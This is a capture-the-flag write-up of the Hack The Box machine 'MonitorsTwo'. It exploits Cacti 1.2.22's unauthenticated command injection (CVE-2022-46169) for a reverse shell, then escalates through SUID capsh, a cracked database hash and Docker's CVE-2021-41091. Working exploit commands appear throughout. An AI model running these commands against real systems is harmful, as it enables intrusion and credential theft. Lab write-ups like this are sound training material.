



+++
title = "MonitorsTwo"
date = "2023-05-04"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-04-29

**Created by**: [TheCyberGeek](https://app.hackthebox.com/users/114053)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.211`

## Scanning

### Ports

As usual, let's start by initiating a port scan on MonitorsTwo using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.211" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.211" --top-ports "500"
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.211" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.11.211" -p "68" -sV
```

```
<SNIP>
PORT   STATE         SERVICE VERSION
68/udp open|filtered dhcpc
<SNIP>
```

Alright, so `nmap` managed to determine that MonitorsTwo is running Linux, and
the version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.211" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http
|_http-title: Login to Cacti
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.11.211" -p "68" -sC
```

```
<SNIP>
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
<SNIP>
```

# Host `172.19.0.3`

## Services enumeration

### Nginx

#### Exploration

Let's browse to `http://10.10.11.211/`.



We're presented with a login page for Cacti.

> Cacti provides a robust and extensible operational monitoring and fault
> management framework for users around the world. It's also a complete network
> graphing solution designed to harness the power of RRDTool's data storage and
> graphing functionality.
>
> — [Cacti](https://www.cacti.net/)

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this website is using PHP version `7.4.33`.

The login page also reveals that it's using Cacti version `1.2.22`.

#### Exploration

We need to authenticate to access functionalities.

If we search online for Cacti's default credentials, we find `admin`:`admin`,
but unfortunately they don't work.

What about common credentials then? I launched a Cluster bomb attack on Burp
Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords. Unfortunately, they all failed.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Cacti 1.2.22`, we
find
[Cacti v1.2.22 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51166)
([CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)).

## Foothold (RCE)

Cacti versions up to `1.2.22` are vulnerable to an OS command injection after an
authentication bypass. This vulnerability stems from a lack of proper
authorization in the `/remote_agent.php` page, as an attacker can craft HTTP
headers and set them to the target IP to bypass the `remote_client_authorized`
validation. Then, the attacker can obtain RCE by specifying his own commands
with the `poller_id` parameter, which isn't sanitized at all, and bruteforce
valid `host_id` and `local_data_id` parameters since they're numbered in
ascending order.

You can read more about it on
[SonarCloud](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/).

### Preparation

The Metasploit module `exploit/linux/http/cacti_unauthenticated_cmd_injection`
can be used to exploit this vulnerability, but it's not too hard to do manually.

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save it as the `REVSHELL_PAYLOAD` shell variable.

### Exploitation

To exploit this vulnerability, we need to have access to `/remote_agent.php`.
Let's check if the `127.0.0.1` address passes the authorization check:

```sh
❯ curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php"
```

```
Unknown Agent Request
```

We don't get an authorization error message, so it's valid.

Now we have access to the `/remote_agent.php` functionalities. To exploit the OS
command injection vulnerability, we need valid `host_id` and `local_data_id`
values, so let's bruteforce them:

```sh
❯ for i in {1..10}; do \
      for j in {1..10}; do \
          RESPONSE=$(curl -s -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php" -G --data-urlencode "action=polldata" --data-urlencode "host_id=$i" --data-urlencode "local_data_ids[]=$j" --data-urlencode "poller_id="); \
              if [ "$RESPONSE" != "[]" ]; then \
                  RRD_NAME=$(echo "$RESPONSE" | jq -r '.[0].rrd_name'); \
                  if [[ $RRD_NAME == "polling_time" || $RRD_NAME == "uptime" ]]; then \
                      HOST_ID="$i"; \
                      LOCAL_DATA_ID="$j"; \
                  break 2; \
              fi; \
          fi; \
      done; \
  done
```

With these values, we can execute our command.

```sh
❯ curl -s -o "/dev/null" -H "X-Forwarded-For: 127.0.0.1" "http://10.10.11.211/remote_agent.php" -G --data-urlencode "action=polldata" --data-urlencode "host_id=$HOST_ID" --data-urlencode "local_data_ids[]=$LOCAL_DATA_ID" --data-urlencode "poller_id=;'/bin/bash' -c '$REVSHELL_PAYLOAD'"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.211] 47556
<SNIP>
www-data@50bca5e748b0:/var/www/html$
```

It caught the reverse shell!

### Spawning a tty

Let's use this one-liner to spawn a tty:

```sh
/usr/bin/script "/dev/null" -qc "/bin/bash"
```

## System enumeration

We're actually in a Docker container, and the `/etc/hosts` file indicates that
our current IP is `172.19.0.3`. Therefore, I'll skip the 'Getting a lay of the
land' section, an directly get to the crux of the matter.

### SUID

Let's look for SUID binaries.

```sh
www-data@50bca5e748b0:/var/www/html$ find "/" -perm -4000 2>"/dev/null"
```

```
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

The `/sbin/capsh` binary is interesting!

## Privilege escalation (SUID)

If we search [GTFOBins](https://gtfobins.github.io/) for `capsh`, we find
[an entry](https://gtfobins.github.io/gtfobins/capsh/). Luckily, it has a
['SUID' section](https://gtfobins.github.io/gtfobins/capsh/#suid)!

### Exploitation

I'll use the given command to abuse the SUID permission on this binary:

```sh
www-data@50bca5e748b0:/var/www/html$ /sbin/capsh --gid="0" --uid="0" --
```

```

```

Yay!

### Spawning a tty

Let's use this one-liner to spawn a tty:

```sh
/usr/bin/script "/dev/null" -qc "/bin/bash"
```

## System enumeration

### Inspecting `/entrypoint.sh`

If we explore the filesystem, we find an entrypoint for the Docker container.
Let's check it:

```sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti </var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
    set -- apache2-foreground "$@"
fi

exec "$@"
```

This script basically connects to the MySQL database on the `db` host with the
credentials `root`:`root` and changes a few tables.

# Host `172.19.0.2`

## Services enumeration

### MySQL

Let's connect to the MySQL server running on `db` using the credentials we just
found:

```sh
notch@Blocky:~$ mysql -h "db" -u "root" -p"root"
```

```
<SNIP>
MySQL [(none)]>
```

#### Version

Let's find out the version of MySQL in use.

```sh
MySQL [(none)]> SELECT @@version;
```

```
+-----------+
| @@version |
+-----------+
| 5.7.40    |
+-----------+
<SNIP>
```

So it's MySQL version `5.7.40`.

#### Databases

Now, let's see which databases are available.

```sh
MySQL [(none)]> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
<SNIP>
```

The `cacti` database is the probably the most interesting (it's also the one
used by the website).

#### `cacti`'s tables

Let's see which tables are included in this database.

```sh
MySQL [(none)]> SHOW tables;
```

```
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
| aggregate_graphs                    |
| aggregate_graphs_graph_item         |
| aggregate_graphs_items              |
| automation_devices                  |
| automation_graph_rule_items         |
| automation_graph_rules              |
| automation_ips                      |
| automation_match_rule_items         |
| automation_networks                 |
| automation_processes                |
| automation_snmp                     |
| automation_snmp_items               |
| automation_templates                |
| automation_tree_rule_items          |
| automation_tree_rules               |
| cdef                                |
| cdef_items                          |
| color_template_items                |
| color_templates                     |
| colors                              |
| data_debug                          |
| data_input                          |
| data_input_data                     |
| data_input_fields                   |
| data_local                          |
| data_source_profiles                |
| data_source_profiles_cf             |
| data_source_profiles_rra            |
| data_source_purge_action            |
| data_source_purge_temp              |
| data_source_stats_daily             |
| data_source_stats_hourly            |
| data_source_stats_hourly_cache      |
| data_source_stats_hourly_last       |
| data_source_stats_monthly           |
| data_source_stats_weekly            |
| data_source_stats_yearly            |
| data_template                       |
| data_template_data                  |
| data_template_rrd                   |
| external_links                      |
| graph_local                         |
| graph_template_input                |
| graph_template_input_defs           |
| graph_templates                     |
| graph_templates_gprint              |
| graph_templates_graph               |
| graph_templates_item                |
| graph_tree                          |
| graph_tree_items                    |
| host                                |
| host_graph                          |
| host_snmp_cache                     |
| host_snmp_query                     |
| host_template                       |
| host_template_graph                 |
| host_template_snmp_query            |
| plugin_config                       |
| plugin_db_changes                   |
| plugin_hooks                        |
| plugin_realms                       |
| poller                              |
| poller_command                      |
| poller_data_template_field_mappings |
| poller_item                         |
| poller_output                       |
| poller_output_boost                 |
| poller_output_boost_local_data_ids  |
| poller_output_boost_processes       |
| poller_output_realtime              |
| poller_reindex                      |
| poller_resource_cache               |
| poller_time                         |
| processes                           |
| reports                             |
| reports_items                       |
| sessions                            |
| settings                            |
| settings_tree                       |
| settings_user                       |
| settings_user_group                 |
| sites                               |
| snmp_query                          |
| snmp_query_graph                    |
| snmp_query_graph_rrd                |
| snmp_query_graph_rrd_sv             |
| snmp_query_graph_sv                 |
| snmpagent_cache                     |
| snmpagent_cache_notifications       |
| snmpagent_cache_textual_conventions |
| snmpagent_managers                  |
| snmpagent_managers_notifications    |
| snmpagent_mibs                      |
| snmpagent_notifications_log         |
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
<SNIP>
```

There's lots of tables, but `user_auth` looks particularly noteworthy.

#### `user_auth`'s columns

Let's continue our enumeration of this database by checking the content of the
`user_auth` table.

```sh
MySQL [(none)]> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'user_auth';
```

```
+-----------------------+------------------------+
| column_type           | column_name            |
+-----------------------+------------------------+
| mediumint(8) unsigned | id                     |
| varchar(50)           | username               |
| varchar(256)          | password               |
| mediumint(8)          | realm                  |
| varchar(100)          | full_name              |
| varchar(128)          | email_address          |
| char(2)               | must_change_password   |
| char(2)               | password_change        |
| char(2)               | show_tree              |
| char(2)               | show_list              |
| char(2)               | show_preview           |
| char(2)               | graph_settings         |
| tinyint(3) unsigned   | login_opts             |
| tinyint(3) unsigned   | policy_graphs          |
| tinyint(3) unsigned   | policy_trees           |
| tinyint(3) unsigned   | policy_hosts           |
| tinyint(3) unsigned   | policy_graph_templates |
| char(2)               | enabled                |
| int(11)               | lastchange             |
| int(11)               | lastlogin              |
| varchar(4096)         | password_history       |
| varchar(3)            | locked                 |
| int(5)                | failed_attempts        |
| int(10) unsigned      | lastfail               |
| int(10) unsigned      | reset_perms            |
+-----------------------+------------------------+
<SNIP>
```

Okay, so this table contains 25 columns.

#### `user_auth`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
MySQL [(none)]> SELECT username, password FROM user_auth;
```

```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
<SNIP>
```

We find two hashes: one for `admin` and one for `marcus`.

I'll place them on my machine in `/workspaces/mysql.hash`.

#### Hash cracking

Let's try to crack these hashes using `hashcat` with the `rockyou.txt` wordlist.

```sh
❯ hashcat -m "3200" "/workspace/mysql.hash" -a "0" "/usr/share/wordlists/rockyou.txt"
```

```
<SNIP>
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
<SNIP>
```

`marcus`' hash corresponds to the `funkymonkey` password!

# Host `10.10.11.211`

## Foothold (SSH)

Let's try the credentials `marcus`:`funkymonkey` to connect to MonitorsTwo over
SSH.

```sh
❯ ssh "marcus@10.10.11.211"
```

```
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
<SNIP>
marcus@10.10.11.211's password:
<SNIP>
marcus@monitorstwo:~$
```

Nice!

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `marcus` (obviously).

### Architecture

What is MonitorsTwo's architecture?

```sh
marcus@monitorstwo:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution MonitorsTwo is using.

```sh
marcus@monitorstwo:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of MonitorsTwo.

```sh
marcus@monitorstwo:~$ uname -r
```

```
5.4.0-147-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
marcus@monitorstwo:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
marcus
root
```

There's `marcus` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
marcus@monitorstwo:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
docker
fax
floppy
fwupd-refresh
games
gnats
input
irc
kmem
kvm
landscape
_laurel
list
lp
lxd
mail
man
marcus
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
shadow
src
ssh
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `docker` and `lxd` groups are interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
marcus@monitorstwo:~$ ifconfig
```

```
br-60ea49c21773: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:07:ae:9e:35  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

br-7c3b7c0d00b3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.1  netmask 255.255.0.0  broadcast 172.19.255.255
        inet6 fe80::42:d9ff:fe28:c07b  prefixlen 64  scopeid 0x20<link>
        ether 02:42:d9:28:c0:7b  txqueuelen 0  (Ethernet)
        RX packets 1  bytes 28 (28.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5  bytes 526 (526.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:7d:ac:4e:ab  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.211  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 fe80::250:56ff:feb9:a04  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:a04  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:0a:04  txqueuelen 1000  (Ethernet)
        RX packets 118  bytes 13616 (13.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 175  bytes 24024 (24.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 316  bytes 24538 (24.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 316  bytes 24538 (24.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth03ef420: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::747b:2fff:fe56:121a  prefixlen 64  scopeid 0x20<link>
        ether 76:7b:2f:56:12:1a  txqueuelen 0  (Ethernet)
        RX packets 17  bytes 1340 (1.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26  bytes 4731 (4.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethb5a9a23: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::48:4aff:fe7f:e748  prefixlen 64  scopeid 0x20<link>
        ether 02:48:4a:7f:e7:48  txqueuelen 0  (Ethernet)
        RX packets 13  bytes 3645 (3.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 33  bytes 2732 (2.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There are physical Ethernet interfaces, virtual Ethernet interfaces, the
loopback interface and a few bridges (including one for Docker).

### Hostname

What is MonitorsTwo's hostname?

```sh
marcus@monitorstwo:~$ hostname
```

```
monitorstwo
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
marcus@monitorstwo:~$ cat "/home/marcus/user.txt"
```

```
786ab09d9b40f20fbcc53552e2b9de82
```

### Inspecting `/var/spool/mail/marcus`

If we check our mailbox, we find one message.

```
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

An administrator warns us that three vulnerabilites were recently discovered and
might affect our system.

The [CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) looks
particularly promising to me.

## Privilege escalation ([CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091))

[CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091) is a
vulnerability affecting Moby versions prior to `20.10.9`. Due to insufficiently
restricted permissions, a local user has access to the content of the Docker
data directory, typically located at `/var/lib/docker`, as if he exists on the
container. Therefore, he's able to read, write and execute any files on a Docker
container if the permissions in this container allow it. Moreover, if a binary
in this container has the SUID bit set, the user can execute it with the owner's
privileges from the system, resulting in a privilege escalation vulnerability.

### Checks

Let's check if our version of Docker has been updated, as suggested by the
administrator.

```sh
marcus@monitorstwo:~$ docker -v
```

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

It hasn't been yet!

### Preparation

The goal is to get an elevated shell on MonitorTwo by executing `/bin/bash` as
`root`.

First, we need to set the SUID bit on the `/bin/bash` binary in a Docker
container. I'll do it on the `172.19.0.3` host, since we already got `root` on
it.

```sh
root@50bca5e748b0:/var/www/html# chmod u+s "/bin/bash"
```

Then, let's find the directories that are mounted by the Docker containers.

```sh
marcus@monitorstwo:~$ findmnt | grep "/var/lib/docker/overlay2" | awk '{print $1}' | sed 's/..//'
```

```
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
```

One of these folders corresponds to the host `172.19.0.3`.

If we explore the second folder, we see that it's the one corresponding to this
host.

Now let's execute the `/bin/bash` binary of the `172.19.0.3` host from
MonitorsTwo without dropping privileges:

```sh
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
```

```
bash-5.1#
```

Yay!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to MonitorsTwo as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@monitorstwo:~# cat "/root/root.txt"
```

```
aee8c2b3fd40b94efc1cebf5c69d5648
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Very easy' and the root flag as 'Not too easy' to
obtain. The foothold was quite straightforward, it only required to find a known
vulnerability, and it was easy to exploit. However, the privilege escalation was
much harder, since we actually got a foothold in a Docker container. We had to
find credentials to read a MySQL database, find a password hash and crack it,
then log in over SSH with it to get a foothold on the real machine, and finally
find a vulnerability to get `root`. Luckily, the vulnerability in question was
easy to exploit.

Thanks for reading!
